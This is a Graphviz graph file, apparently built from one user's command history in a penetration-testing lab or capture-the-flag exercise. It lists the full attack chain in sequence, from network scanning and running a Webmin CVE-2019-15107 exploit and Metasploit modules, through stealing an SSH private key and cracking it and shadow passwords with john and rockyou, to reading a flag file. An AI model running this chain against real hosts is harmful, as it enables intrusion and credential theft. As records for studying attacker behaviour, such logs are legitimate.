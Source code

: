 // creating graph for user: 86
digraph {
	node [shape=box]
	0 [label="curl ipconfig.co U"]
	1 [label="dig +short myip.opendns.com U"]
	2 [label="nmap 172.18.1.5 -p 0-65535 A0 M0 A1 "]
	3 [label="nc 172.18.1.6:10000 U"]
	4 [label="nc 172.18.1.6 10000 U"]
	5 [label="wat U"]
	6 [label="nc 172.18.1.5 10000 U"]
	7 [label="git clone https://github.com/jas502n/cve-2019-15107 U"]
	8 [label="git clone https://github.com/jas502n/cve-2019-15107 U"]
	9 [label="python CVE_2019_15107.py http://172.18.1.5:10000 A13 "]
	10 [label="python CVE_2019_15107.py http://172.18.1.5:10000 id A13 "]
	11 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	12 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	13 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	14 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' A9 M9 A11 A12 A13 A17 "]
	15 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -l /root' A10 A13 "]
	16 [label="ip a U"]
	17 [label="nmap 172.18.1.5 V0 "]
	18 [label="nmap 172.18.1.0/24 A0 A1 "]
	19 [label="nmap 172.18.0.0/16 A0 A1 "]
	20 [label="nmap 172.18.0.0/16 A0 A1 "]
	21 [label="msf U"]
	22 [label="metaflac U"]
	23 [label="msfconsole A2 M2 "]
	24 [label="use exploit/linux/http/webmin_backdoor A8 M8 "]
	25 [label="msfconsole V2 "]
	26 [label="search webmin A3 M3 "]
	27 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	28 [label="show targets A5 "]
	29 [label="set target 0 A6 "]
	30 [label="set target 1 A6 "]
	31 [label="show options A5 M5 "]
	32 [label="set RHOSTS 172.15.1.5 A6 M6 "]
	33 [label="set RPORT 10000 V6 "]
	34 [label="show A5 "]
	35 [label="show options V5 "]
	36 [label="exploit V8 "]
	37 [label="quit U"]
	38 [label="msfconsole V2 "]
	39 [label="search webmin V3 "]
	40 [label="use exploit/unix/webapp/webmin_show_cgi_exec V8 "]
	41 [label="show A5 "]
	42 [label="show targets A5 "]
	43 [label="show options V5 "]
	44 [label="set RHOST 172.18.1.5 A6 "]
	45 [label="set USERNAME dmin A6 "]
	46 [label="set USERNAME admin A6 "]
	47 [label="exploit V8 "]
	48 [label="set PASSWORD admin A6 "]
	49 [label="exploit V8 "]
	50 [label="ip a U"]
	51 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	52 [label="show targets A5 "]
	53 [label="set TARGET 0 A6 "]
	54 [label="show options V5 "]
	55 [label="set LHOST 10.1.135.83 V6 "]
	56 [label="set RHOST 172.18.1.5  A6 "]
	57 [label="exploit V8 "]
	58 [label="set TARGET 1 A6 "]
	59 [label="ssh eve@10.1.17.4 A16 M16 "]
	60 [label="man xclip U"]
	61 [label="xclip -selection c -o > .ssh/id_rsa A16 "]
	62 [label="vim .ssh/id_rsa A16 "]
	63 [label="vim .ssh/id_rsa.pub A16 "]
	64 [label="ssh eve@10.1.17.4 V16 "]
	65 [label="chmod 0600 /root/.ssh/id_rsa A15 M15 A16 "]
	66 [label="ssh eve@10.1.17.4 V16 "]
	67 [label="ssh eve@10.1.17.4 V16 "]
	68 [label="nc -l 12345 U"]
	69 [label="ip a U"]
	70 [label="vim shadow U"]
	71 [label="vim passwd U"]
	72 [label="unshadow shadow passwd U"]
	73 [label="unshadow passwd shadow U"]
	74 [label="unshadow passwd shadow > mypasswd U"]
	75 [label="john mypasswd A14 "]
	76 [label="base64 -d U"]
	77 [label="cat .ssh/id_rsa A12 M12 A16 A17 "]
	78 [label="cat .ssh/id_rsa.pub V12 "]
	79 [label="ls A10 "]
	80 [label="cp ~/.ssh/id_rsa A16 "]
	81 [label="cp ~/.ssh/id_rsa id_rsa A16 "]
	82 [label="localte ssh2john.py A14 A16 "]
	83 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	84 [label="python ssh2john.py id_rsa A13 M13 A14 A16 "]
	85 [label="python ssh2john.py id_rsa > ssh.john V13 "]
	86 [label="john ssh.john A14 A16 "]
	87 [label="john ssh.john A14 A16 "]
	88 [label="cat .john/john.rec A1 A9 A11 A12 A14 A17 "]
	89 [label="fg U"]
	90 [label="john ssh.john A14 A16 "]
	91 [label="wget https://github.com/praetorian-code/hob0rules/blob/master/wordlists/rockyou.txt.gz U"]
	92 [label="cat rockyou.txt.gz A1 A9 A11 A12 A17 "]
	93 [label="locate rockyou A1 A9 A10 A11 A12 A17 "]
	94 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	95 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	96 [label="ls /usr/share/wordlists/rockyou.txt A10 "]
	97 [label="ll /usr/share/wordlists/rockyou.txt U"]
	98 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	99 [label="john ssh.john A14 A16 "]
	100 [label="locate rocky A1 A9 A10 A11 A12 A17 "]
	101 [label="ls /usr/share/wordlists/ A10 "]
	102 [label="cd me U"]
	103 [label="ls /usr/share/wordlists/metasploit A10 "]
	104 [label="cd U"]
	105 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	106 [label="diff ssh2john.py /usr/share/john/ssh2john.py A14 A16 "]
	107 [label="ll U"]
	108 [label="ls A10 "]
	109 [label="python /usr/share/john/ssh2john.py id_rsa > ssh2.jogn V13 "]
	110 [label="diff ssh.john ssh2.jogn A14 A16 "]
	111 [label="john ssh.john --wordlist=/usr/share/wordlists/rockyou.txt A14 M14 A16 "]
	112 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	113 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	114 [label="ssh eve@10.1.17.4 V16 "]
	115 [label="nice U"]
	116 [label="ls A10 "]
	117 [label="cd top-secret/ U"]
	118 [label="ls A10 "]
	119 [label="cat flag.txt A17 M17 "]
	120 [label="ll /usr/share/wordlists/rockyou.txt U"]
	121 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	122 [label="exit U"]
	123 [label="john ssh.john -wordlist=/usr/share/wordlists/rockyou.txt A14 A16 "]
	124 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	rankdir=LR
}
